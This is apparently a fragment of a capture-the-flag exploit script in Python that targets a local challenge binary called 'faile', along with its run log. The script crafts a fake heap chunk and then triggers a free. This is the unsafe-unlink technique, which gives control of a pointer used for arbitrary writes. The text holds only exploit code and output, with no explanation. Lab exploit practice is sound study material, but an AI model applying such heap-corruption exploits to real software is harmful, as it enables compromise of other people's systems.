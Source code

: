 ```python
# 0x00602050 bins[3]
# 0x00602060 bins[4]
# 0x00602070 bins[5]
# 0x00602080 bins[6]
# 0x00602090 bins[7]
# 0x006020a0 bins[8]
# 0x006020b0 bins[9]
# 0x006020c0 name
# 0x006020.. ...
# 0x006021c0 faile

bins[0] = create(0x80)
bins[1] = create(0x80)
bins[2] = create(0x80)
bins[3] = create(0x80)
bins[4] = create(0x80)

log.info('bin[0] ' + bins[0])
log.info('bin[1] ' + bins[1])
log.info('bin[2] ' + bins[2])
log.info('bin[3] ' + bins[3])
log.info('bin[4] ' + bins[4])

payload  = ''
payload += p64(0)
payload += p64(0)
payload += p64(0x00602010)
payload += p64(0x00602018)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0x80)
payload += p64(0x90)

edit(bins[0], payload)
delete(bins[1])

log.info('bin[0] now should be pointing to 0x602010')

'''
[+] Starting local process '/Challanges/faile': pid 1683
[*] bin[0] 697deecef99bfcff
[*] bin[1] 029f610bcdc347ab
[*] Switching to interactive mode
|--> 697deecef99bfcff, 0x602010 <-- controlled
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
|--> 0000000000000000, (nil)
```